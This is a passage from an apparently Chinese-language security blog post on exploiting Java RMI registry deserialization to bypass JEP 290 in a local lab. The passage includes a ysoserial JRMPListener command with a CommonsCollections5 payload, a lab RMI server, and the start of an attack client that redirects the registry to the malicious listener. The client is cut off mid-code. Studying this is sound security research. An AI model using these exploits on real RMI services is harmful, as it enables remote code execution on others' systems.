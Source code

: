 ```
            }
        }
    }

}

```

这里wirteObject后，会用invoke将数据发出去，接下来从socket连接中先读取了输入，然后直接反序列化，此时的反序列化并没有设置filter，所以这里可以直接导致注册中心rce，所以我们可以伪造一个socket连接并把我们恶意序列化的对象发过去


![image-20241125211955648](https://images.cnblogs.com/cnblogs_com/erosion2020/2432063/o_241125134825_rmi20.png)


**使用ysoserial构造恶意服务端**



```
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 3333 CommonsCollections5 "calc"

```

**服务端代码**



```
package rmi_injection_labs1.server;

import rmi_injection_labs1.service.LocalUser;
import rmi_injection_labs1.service.User;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class LocalUserServer {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(2222);
        User user = new LocalUser("Erosion", 25);
        registry.rebind("HelloRegistry", user);
        System.out.println("rmi start at 2222");
    }
}

```

**客户端代码**



```
package rmi_injection_labs1.client;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.lang.reflect.Proxy;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

public class JEP290AttackClientByYsoSerial {
    public static void main(String[] args) throws Exception {
        Registry reg = LocateRegistry.getRegistry("127.0.0.1",2222);
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint("127.0.0.1", 3333);
```